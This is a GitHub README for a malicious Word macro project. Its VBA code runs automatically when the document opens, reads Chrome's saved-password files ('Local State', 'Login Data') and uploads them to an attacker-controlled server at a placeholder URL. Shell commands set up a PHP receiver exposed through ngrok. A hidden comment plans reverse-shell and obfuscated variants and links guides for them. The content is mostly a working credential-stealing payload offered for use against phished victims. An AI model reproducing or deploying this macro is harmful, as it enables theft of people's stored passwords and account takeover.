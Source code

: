 # The word is yours





<div align=center>
<img src=https://github.com/ariary/WordTrojan/blob/main/img/logo.png width=180>
<br><strong><i>Malicious macro for the dummies<sup>*</sup></i></strong>
<br><sup>* In fact it is for me</sup> 

  🔫 <strong>•</strong> 🥷 <strong>•</strong> 🫖
</div> 


## Context

It is well-known that macro is a great vector of attack to execute malicious code on victim device. The approach is basically to make the victim open an MS document which will run code using Macro.

Macro are written in VBA which is a precompiled language (⇒ easy to reverse.. argh).

We suppose the victim is using Windows.

### What we want to do?

To discover a bit the macro world. Our aim is to steal credentials stored in the Chrome password manager. The scenario is the following:
* Transfer malicious word document to victim *(out-of-scope: use social-engineering,phishing, ..)
* Encourage them to open it + enable macro
  * The macro will retrieve the files containing credentials, then send them to C2 server
* On C2 server we will decrypt the credentials

## 🔫 Naive approach

- [Retrieve sensitive files and send it from word](#retrieve-sensitive-files-and-send-it-from-word)
- [Receive files on Attacker side](#receive-files-on-attacker-side)
- [Let's Contemplate the explosion](#lets-contemplate-the-explosion)
- [Caveat](#caveat)

> 💡 **Create Macro**: in your word document *View* > Macros > view macros > Edit

### Retrieve sensitive files and send it from word

The macro payload reads the differents files containing Chrome passwords and send them to C2 server. Translate it in VBA:
```VBA
Private Function pvPostFile(sUrl As String, sFileName As String, Optional ByVal bAsync As Boolean) As String
    Const STR_BOUNDARY  As String = "3fbd04f5-b1ed-4060-99b9-fca7ff59c113"
    Dim nFile           As Integer
    Dim baBuffer()      As Byte
    Dim sPostData       As String
 
    '--- read file
    nFile = FreeFile
    Open sFileName For Binary Access Read As nFile
    If LOF(nFile) > 0 Then
        ReDim baBuffer(0 To LOF(nFile) - 1) As Byte
        Get nFile, , baBuffer
        sPostData = StrConv(baBuffer, vbUnicode)
    End If
    Close nFile
    '--- prepare body
    sPostData = "--" & STR_BOUNDARY & vbCrLf & _
        "Content-Disposition: form-data; name=""uploadfile""; filename=""" & Mid$(sFileName, InStrRev(sFileName, "\") + 1) & """" & vbCrLf & _
        "Content-Type: application/octet-stream" & vbCrLf & vbCrLf & _
        sPostData & vbCrLf & _
        "--" & STR_BOUNDARY & "--"
    '--- post
    With CreateObject("Microsoft.XMLHTTP")
        .Open "POST", sUrl, bAsync
        .SetRequestHeader "Content-Type", "multipart/form-data; boundary=" & STR_BOUNDARY
        .Send pvToByteArray(sPostData)
        If Not bAsync Then
            pvPostFile = .ResponseText
        End If
    End With
End Function
 
Private Function pvToByteArray(sText As String) As Byte()
    pvToByteArray = StrConv(sText, vbFromUnicode)
End Function
```
(from [wqweto](https://wqweto.wordpress.com/2011/07/12/vb6-using-wininet-to-post-binary-file/))

Now call this function to send the files we want:
```VBA
Private Sub Malware()
    pvPostFile "https://[ATTACKER_URL]/upload.php?id=[TARGET_ID]", "C:\Users\" & Environ("username") & "\AppData\Local\Google\Chrome\User Data\Local State"
    pvPostFile "https://[ATTACKER_URL]/upload.php?id=[TARGET_ID]", "C:\Users\" & Environ("username") & "\AppData\Local\Google\Chrome\User Data\Default\Login Data"
End Sub

Private Sub Launch()
    Malware
End Sub

Sub AutoOpen()
    ' Becomes launched as first on MS Word
    Launch
End Sub

Sub Document_Open()
    ' Becomes launched as second, another try, on MS Word
    Launch
End Sub
```
`Document_Open` and `AutoOpen` are special functions which are automatically executed when the word document is open.

### Receive files on Attacker side

[`php/upload.php`](https://github.com/ariary/TheWordIsYours/blob/main/php/upload.php) is the php file in charge of receiving uploaded file (with `multipart/form-data`).

Launch the server (from here) and expose it (with `ngrok`, for test purpose only):
```shell
php -S localhost:8080 -t php

#On another tab
ngrok http 8080
```
Let's copy your ngrok https endpoint and replace `[ATTACKER_URL]` in the macro

### Let's Contemplate the explosion

Now open the word document (on a windows machine please) and **bang**, see that it has discreetly exfiltrated the documents on your attacking machine.

Now that we have what we want, proceed to password decryption on attacker machine (which is the coolest part)

*.. to do*

### Caveat

* Our macro payload lets a lot of information through that will allow a blue team to trace you easily as well as defend themselves
* Target must enable macros to trigger the payload *(sometimes it is by default sometimes not, don't ask me)*

## 🥷 On the road to stealth
*.. to do*

<!--Example of revershell macro in word document

See https://vunnm.files.wordpress.com/2018/09/article_macro_reverse_shell.pdf

And https://www.thedecentshub.tech/2021/08/reverse-shell-from-word-documents.html

Obfuscation: https://connect.ed-diamond.com/MISC/misc-087/automatisation-d-une-obfuscation-de-code-vba-avec-vbad

For macro useful tool: https://github.com/CaledoniaProject/awesome-opensource-security/blob/master/office-tools.md
1. Create macro (reverseshell + social engineering)
2. Force victime to click on enable content
3. Get reverse shell

Faire aussi un payload qui récupère les mdp enregistrés par chrome ou Firefox -->
